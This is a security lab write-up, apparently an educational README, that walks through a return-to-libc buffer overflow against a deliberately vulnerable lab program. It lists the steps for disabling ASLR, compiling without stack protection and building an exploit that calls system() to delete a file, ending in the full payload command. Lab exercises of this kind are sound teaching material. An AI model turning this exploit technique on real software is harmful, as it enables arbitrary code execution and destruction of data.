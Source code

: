# Exploit return-to-lib-c vulnerability, delete file "dummy" in directory /tmp/dummy using environment variable

Build image 
- `docker build -t img4lab .`
- `docker run -it --privileged -v C:/Users/Admin/seclabs:/home/seed/seclabs img4lab`

vuln.c

![Picture about vuln.c](/Chapter-2/imgs/Lab3/vuln.png)
- Compile `gcc vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2`

Before doing this lab, we have to turn off ASLR (Address Space Layout Randomization) `sudo sysctl -w kernel.randomize_va_space=0`

![Picture about ASLR](/Chapter-2/imgs/Lab3/turn-off-random-address.png)

Now we create an environment variable in Linux with the path of file `file_del`

![Picture about creating env var](/Chapter-2/imgs/Lab3/create-env.png)
- `nasm -g -f elf file_del.asm`
- `ld -m elf_i386 -o file_del file_del.o`
- `pwd` -> `/home/seed/seclabs/bof`
- `export exploit_path="/home/seed/seclabs/bof/file_del"`

Based on `env`, we know that we successfully create env var

![Picture about checking env var](/Chapter-2/imgs/Lab3/check-env.png)

Look at the stack frame

![Picture about stack frame](/Chapter-2/imgs/Lab3/Stack-Frame.png)

If we want to exploit
- 68 bytes to overwrite buf and ebp
- 4 bytes to overwrite ret addr of vuln with the address of system
- 4 bytes for the address of exit
- 4 bytes for argument of system (exploit path that we created before)

We use gdb to get address of them
- Start the program before finding

![Picture about finding address](/Chapter-2/imgs/Lab3/gdb-address.png)
- `0xf7e50db0` -> `\xb0\x0d\xe5\xf7`
- `0xf7e449e0` -> `\xe0\x49\xe4\xf7`
- `0xffffdf72` -> `\x72\xdf\xff\xff`

Therefore, the final command is `r $(python -c "print(68*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x72\xdf\xff\xff')")`

After running this command, we successfully execute `file_del` and delete `dummyfile`

![Picture about result](/Chapter-2/imgs/Lab3/result.png)
